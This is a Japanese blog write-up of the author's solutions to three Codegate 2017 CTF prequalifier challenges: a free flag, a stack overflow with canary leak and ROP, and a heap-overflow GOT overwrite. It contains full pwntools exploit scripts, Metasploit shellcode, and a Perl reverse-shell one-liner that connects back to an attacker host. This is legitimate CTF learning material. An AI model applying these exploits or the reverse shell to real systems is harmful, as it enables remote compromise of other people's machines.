




[Codegate 2017 CTF](http://ctf.codegate.org/) の Prequalification Round に一人チーム poepoe で参加. 305 points で 78 位(General)でした.

pwn 過去問でもよく見かける Codegate 関連の CTF というだけあって, 実行ファイル解析系の問題が多めだった感じ. 正答者数が増えると問題の得点が下がっていくシステムもあったりで面白かった.

<!--more-->

## 1. Mic Check <small>(50pt)</small>

いわゆるサービス問題. 問題文に得点のシステム等の説明とともに Flag が書いてある.  
**real flag is in brackets** とあるように, 送信する Flag は `{}` 内の文字列だけなので注意.

> Mic Check
> one two~ one two~
> 
> First Point : 500  
> Minimal Point : 50  
> Minus per one solver : -5  
> 
> Here is Flag~ FLAG{Welcome\_to\_codegate2017}
> 
> real flag is in brackets.

## 2. BabyPwn <small>(50pt)</small>

32bit の ELF.  
fork-server 型などと呼ばれているタイプの問題で, 実行すると `argv[1]` に渡した数値または `8181` ポートで接続を待つような感じになっていた.

    $ file babypwn
    babypwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=79d683df4838066af61f58fc7025deb99e6bab3d, stripped
    
    $ checksec babypwn
    [*] '/tmp/babypwn'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE

対象のアドレス/ポートに接続すると, 次のようなメニューが表示される. 1は入力した文字列をそのまま表示, 2は入力した文字列を逆順で表示するというものだった.

    $ nc localhost 8181
    ▒▒▒▒▒▒▒C▒O▒D▒E▒G▒A▒T▒E▒2▒0▒1▒7▒▒▒▒▒▒▒
    ▒▒▒▒▒▒▒B▒A▒B▒Y▒P▒W▒N▒!▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
    ▒▒▒▒▒▒▒G▒O▒O▒D▒L▒U▒C▒K▒~▒!▒▒▒▒▒▒▒▒▒▒▒
    ===============================
    1. Echo
    2. Reverse Echo
    3. Exit
    ===============================
    Select menu > 

接続後の主な処理は `0x08048a71` の関数にあった. 1の処理を追っていくと, 入力した文字列を入れるために確保した領域(0x28 byte)に `recv()` で `0x64` byte も読み込んでいるため stack buffer overflow が起こせる. しかも, 次の入力された文字列を返す処理では, `send()` で `strlen(buf)` 分の文字列を送信しているため, stack の情報をリークさせることが可能なのがわかる.

そこで, 次のような攻撃を行う.  
まず, stack canary をリークさせる. canary は `0x5082ab00` のような下位1 byte が `0x00` なランダムな値なので, 0x28 +1文字を書き込んで `strlen()` のチェックを回避し, 送られてくる文字列の0x29~0x2c文字目を処理することで得られる.

```python
#!/usr/bin/env python2

from pwn import *

r = remote('localhost', 8181)

def echo(s):
    r.recvuntil('Select menu > ')
    r.sendline('1')
    r.recvuntil('Input Your Message : ')
    r.send(s)
    ret = r.recvuntil('\12=')
    return ret[:-2]

buffer_size = 0x28

ret = echo('A' * (buffer_size + 1))
canary = u32(ret[buffer_size:buffer_size + 5]) & 0xffffff00
log.info('leaked canary: 0x%x' % canary)

r.close()
```

    $ ./exploit.py
    [+] Opening connection to localhost on port 8181: Done
    [*] leaked canary: 0x5082ab00
    [*] Closed connection to localhost port 8181

次に, リークさせた canary を使って bof のチェックを回避しつつ, リターンアドレスを書き換えて ROP につなげる.  
調べていくと `0x08048c3b` にこんな感じの関数(があった痕跡?)があるので, `system@plt()` を呼び出せば任意のシェルコマンドを実行できそうなのがわかる.

    [0x08048710]> pd 14 @ 0x08048c3b
                0x08048c3b      push ebp
                0x08048c3c      mov ebp, esp
                0x08048c3e      sub esp, 0x28
                0x08048c41      mov eax, dword gs:[0x14]
                0x08048c47      mov dword [ebp - 0xc], eax
                0x08048c4a      xor eax, eax
                0x08048c4c      mov dword [esp], str.echo__not_easy_to_see._
                0x08048c53      call sym.imp.system
                0x08048c58      mov eax, dword [ebp - 0xc]
                0x08048c5b      xor eax, dword gs:[0x14]
            ,=< 0x08048c62      je 0x8048c69
            |   0x08048c64      call sym.imp.__stack_chk_fail
            `-> 0x08048c69      leave
                0x08048c6a      ret

しかし, これは fork-server 型なので `system("/bin/sh")` を呼んでも意味がない[^1]. そこで, Linux 環境ならほぼ確実に入っているだろう Perl の connect-back shell を起動するワンライナーを使うことにした.

また, `system()` の引数に渡す文字列は, 木曜に解いた [CSAW CTF Qualification Round 2013: Exploitation3](http://shell-storm.org/repo/CTF/CSAW-2013/Exploitation/CSAW-Diary-300/) ([書いたスクリプト](https://gist.github.com/Tosainu/5e0a1764c020a7e5b251b64b48b1468c))と同じような手法を使って送り込んだ.  
ROP が発動する段階ではまだ通信が close されていないことを利用し, まず `recv(fd, addr_bss, 0x100, 0)` を呼んで `.bss` セクションに実行したいシェルコマンドを書き込み, その後 `system(addr_bss)` につなげて送ったコマンドを実行させる.

[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.

実際に作成したスクリプトと実行結果は次の通り. 作業している環境が 無線 LAN ルータ等の NAT の下にある場合は port forwarding の設定をしておくのも忘れずに.

```python
#!/usr/bin/env python2

from pwn import *

# $ objdump -M intel -j .plt -d babypwn
# (...)
# 08048620 <system@plt>:
#  8048620:	ff 25 2c b0 04 08    	jmp    DWORD PTR ds:0x804b02c
#  8048626:	68 40 00 00 00       	push   0x40
#  804862b:	e9 60 ff ff ff       	jmp    8048590 <setsockopt@plt-0x10>
# (...)
# 080486e0 <recv@plt>:
#  80486e0:	ff 25 5c b0 04 08    	jmp    DWORD PTR ds:0x804b05c
#  80486e6:	68 a0 00 00 00       	push   0xa0
#  80486eb:	e9 a0 fe ff ff       	jmp    8048590 <setsockopt@plt-0x10>
addr_system_plt = 0x8048620
addr_recv_plt   = 0x80486e0

# $ readelf -S babypwn | grep .bss
#   [25] .bss              NOBITS          0804b1b4 0021b4 00000c 00  WA  0   0  4
addr_bss = 0x804b1b4

buffer_size = 0x28

socket_fd = 4

# r = remote('localhost', 8181)
r = remote('110.10.212.130', 8888)
# r = remote('110.10.212.130', 8889)

def echo(s):
    r.recvuntil('Select menu > ')
    r.sendline('1')
    r.recvuntil('Input Your Message : ')
    r.send(s)
    ret = r.recvuntil('\12=')
    return ret[:-2]

def reverse_echo(s):
    r.recvuntil('Select menu > ')
    r.sendline('2')
    r.recvuntil('Input Your Message : ')
    r.send(s)
    ret = r.recvuntil('\12=')
    return ret[:-2]

def exit_app():
    r.recvuntil('Select menu > ')
    r.sendline('3')

# leak canary
ret = echo('A' * (buffer_size + 1))
canary = u32(ret[buffer_size:buffer_size + 5]) & 0xffffff00
log.info('leaked canary: 0x%x' % canary)

# send ROP
payload = ''
payload += 'A' * buffer_size
payload += p32(canary)
payload += 'BBBB'                   # 0x8048b83:        pop    ebx
payload += 'BBBB'                   # 0x8048b84:        pop    edi
payload += p32(addr_bss + 0x800)    # 0x8048b85:        pop    ebp
payload += p32(addr_recv_plt)       # recv(fd, addr_bss, 0x100, 0)
payload += p32(addr_system_plt)     # system(addr_bss)
payload += p32(socket_fd)
payload += p32(addr_bss)
payload += p32(0x100)
payload += p32(0)
echo(payload)

exit_app()

# send connect-back shell one-liner
r.clean()
r.sendline('perl -e \'use Socket;$i="your.global.ip.address";$p=13895;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'\x00')
```

    $ nc -l -v 192.168.xxx.xxx 13895
    Listening on [192.168.xxx.xxx] (family 0, port 13895)
    Connection from 110.10.212.130 59276 received!
    $ ls
    babypwn
    flag
    $ cat flag
    FLAG{Good_Job~!Y0u_@re_Very__G@@d!!!!!!^.^}
    $ %                                            

BabyPwn という名前の割にはおもしろい要素がたくさん詰め込まれている感じで, 解いててめちゃくちゃ楽しかった. 気づいたら50点にまで下がっててつらい...

### 2017/02/20 追記

socket の fd が特定できているので, わざわざ connect-back shell を立ち上げなくとも `/bin/sh -i <&fd >&fd 2>&fd` を実行させればいいってことに気づいた. 上のスクリプトの最後の行を次のように変更することで, とりあえずローカルでシェルを取ることができた.

```python
r.sendline('/bin/sh -i <&{0} >&{0} 2>&{0}'.format(socket_fd))

r.interactive()
```

    $ ./exploit2.py
    [+] Opening connection to localhost on port 8181: Done
    [*] leaked canary: 0x6e6b8100
    [*] Switching to interactive mode
    sh-4.4$ $ ls
    ls
    babypwn
    exploit2.py
    exploit.py
    flag.txt
    out
    peda-session-babypwn.txt
    sh-4.4$ $ 
    [*] Closed connection to localhost port 8181

## 12 messenger <small>(205pt)</small>

x86-64 の ELF.

    $ file messenger
    messenger: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=d8396b1a1f90c3679f6946c3693f93abf4563ba4, stripped
    
    $ checksec messenger
    [*] '/tmp/messenger'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX disabled
        PIE:      No PIE

起動するとこんな感じ. 2つまでのメッセージの追加/削除/変更/確認ができる.

    $ ./messenger
     _ __ ___   ___  ___ ___  ___ _ __   __ _  ___ _ __
    | '_ ` _ \ / _ \/ __/ __|/ _ \ '_ \ / _` |/ _ \ '__|
    | | | | | |  __/\__ \__ \  __/ | | | (_| |  __/ |
    |_| |_| |_|\___||___/___/\___|_| |_|\__, |\___|_|
                                        |___/
    [L]eave message
    [R]emove message
    [C]hange message
    [V]iew message
    [Q]uit
    >> 

先に書いておくと, この問題は [Plaid CTF 2014: ezhp](https://github.com/ctfs/write-ups-2014/blob/master/plaid-ctf-2014/ezhp/README.md) に非常に似ていて, [実際に僕が解いたときのスクリプト](https://gist.github.com/Tosainu/1216f3b74aeff490fef0d0e3e3033671)をこのプログラムに合わせて変更するだけで解くことができた.

このプログラムは `[L]eave message` で登録するメッセージの長さを `0x20` 文字までに制限しているのに対し, `[C]hange message` では長さのチェックを行なっておらず, しかも変更前の領域にそのまま新しいメッセージを書き込んでいる. メッセージは独自実装の `malloc()` 的なもので確保された heap 上にあるため, heap buffer overflow が起こせる.

そこで, 次のような攻撃を行う.  
メッセージを1つ追加したとき, heap はこのような双方向リストになっている. ここで一つのブロックのことを chunk, 前の chunk を指すポインタを `bk`, 次の chunk を指すポインタを `fd` と呼ぶことにする.



ここで1つ目のメッセージを変更して heap bof を起こし, 次の chunk の bk を `exit()` の GOT のアドレスから8を引いたものに書き換える.



この状態で2つ目のメッセージの追加するとこのようになり,



そのまま2つ目のメッセージの削除を行うと, `exit()` の GOT のアドレスから8を引いたもの以降を1つの chunk として見た時に `fd` に相当する `exit()` の GOT を3つ目の chunk のアドレスに書き換えることができる. (図の chunk1, chunk2 の `fd`, `bk` が指す要素は, 一応 gdb でも確認しているが正直自信がない. ここでは特に重要でないので気にしないで...)



あとは3つ目の chunk が作られる予定のアドレス辺りに shellcode が配置されるように1つ目のメッセージを再び変更する. すると `exit@plt()` が呼び出されたときに shellcode が実行されるようになる.

実際に作成したスクリプトと実行結果は次の通り.

```python
#!/usr/bin/env python2

from pwn import *

# $ objdump -M intel -j .plt -d messenger
# ...
# 0000000000400780 <exit@plt>:
#   400780:	ff 25 ea 18 20 00    	jmp    QWORD PTR [rip+0x2018ea]        # 602070 <exit@plt+0x2018f0>
#   400786:	68 0b 00 00 00       	push   0xb
#   40078b:	e9 30 ff ff ff       	jmp    4006c0 <puts@plt-0x10>
# ...
addr_exit_got = 0x602070

# msf > use payload/linux/x64/exec
# msf payload(exec) > generate -b '\x00' -t python -o CMD=/bin/sh
shellcode =  ''
shellcode += '\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05'
shellcode += '\xef\xff\xff\xff\x48\xbb\x80\x51\x84\x63\x84\x7a\x7b'
shellcode += '\x73\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4'
shellcode += '\xea\x6a\xdc\xfa\xcc\xc1\x54\x11\xe9\x3f\xab\x10\xec'
shellcode += '\x7a\x28\x3b\x09\xb6\xec\x4e\xe7\x7a\x7b\x3b\x09\xb7'
shellcode += '\xd6\x8b\x8c\x7a\x7b\x73\xaf\x33\xed\x0d\xab\x09\x13'
shellcode += '\x73\xd6\x06\xcc\xea\x62\x75\x7e\x73'

# r = process('./messenger-patched')
r = remote('110.10.212.137',  3333)

#  _ __ ___   ___  ___ ___  ___ _ __   __ _  ___ _ __
# | '_ ` _ \ / _ \/ __/ __|/ _ \ '_ \ / _` |/ _ \ '__|
# | | | | | |  __/\__ \__ \  __/ | | | (_| |  __/ |
# |_| |_| |_|\___||___/___/\___|_| |_|\__, |\___|_|
#                                     |___/
# [L]eave message
# [R]emove message
# [C]hange message
# [V]iew message
# [Q]uit
# >>

def choose_action(c):
    r.recvuntil('[Q]uit\n>> ')
    r.sendline(c)

def leave_message(n, s):
    choose_action('L')
    r.recvuntil('size : ')
    r.sendline(str(n))
    r.recvuntil('msg : ')
    r.send(s)

def remove_message(i):
    choose_action('R')
    r.recvuntil('index : ')
    r.sendline(str(i))

def change_message(i, n, s):
    choose_action('C')
    r.recvuntil('index : ')
    r.sendline(str(i))
    r.recvuntil('size : ')
    r.sendline(str(n))
    r.recvuntil('msg : ')
    r.send(s)

def view_message(i):
    choose_action('V')
    r.recvuntil('index : ')
    r.sendline(str(i))
    return r.recvuntil('\n[L]eave')[:-len('\n[L]eave')]

def quit():
    choose_action('Q')

# add 1st message
leave_message(4, 'AAAA')

# gdb-peda$ x/50xg 0x603000 <- heap base
# 0x603000:	0x0000000000000018	0x0000000000603018
# 0x603010:	0x0000000000000000	0x0000000000000031 <- 1st chunk size
# 0x603020:	0x0000000000603048	0x0000000000603000 <- fd, bk
# 0x603030:	0x0000000041414141	0x0000000000000000
# 0x603040:	0x0000000000000000	0x00000000000003d0 <- 2nd chunk size
# 0x603050:	0x0000000000000000	0x0000000000603018 <- fd, bk
# 0x603060:	0x0000000000000000	0x0000000000000000

# resize 1st message and overwite 2nd chunk's bk
payload = ''
payload += 'A' * 0x18
payload += p64(0x3d0)               # size
payload += p64(0)                   # fd
payload += p64(addr_exit_got - 8)   # bk
change_message(0, len(payload), payload)

# add 2nd message
leave_message(4, 'AAAA')

# remove 2nd message
# now, addr_exit_got was overwitten to 3rd chunk's addr
remove_message(1)

# send shellcode
payload = ''
payload += '\x90' * 0x100
payload += shellcode
change_message(0, len(payload), payload)

# select undefined action to call exit()
choose_action('Z')

r.interactive()
```

    $ ./exploit.py
    [+] Opening connection to 110.10.212.137 on port 3333: Done
    [*] Switching to interactive mode
    $ ls
    flag
    messenger
    $ cat flag
    1_wan3_y0ur_m3ssenger$%
    $ 
    [*] Closed connection to 110.10.212.137 port 3333


## おわり

解くのは楽しかったけど, 過去問に似た正答者数の多く得点がどんどん下がっていった問題しか解けてないので厳しい...

### 参考URL

- [Reverse Shell Cheat Sheet | pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [katagaitai CTF勉強会 #1 pwnables編 - DEFCON CTF 2014 pwn1 heap / katagaitai CTF #1 // Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-1)
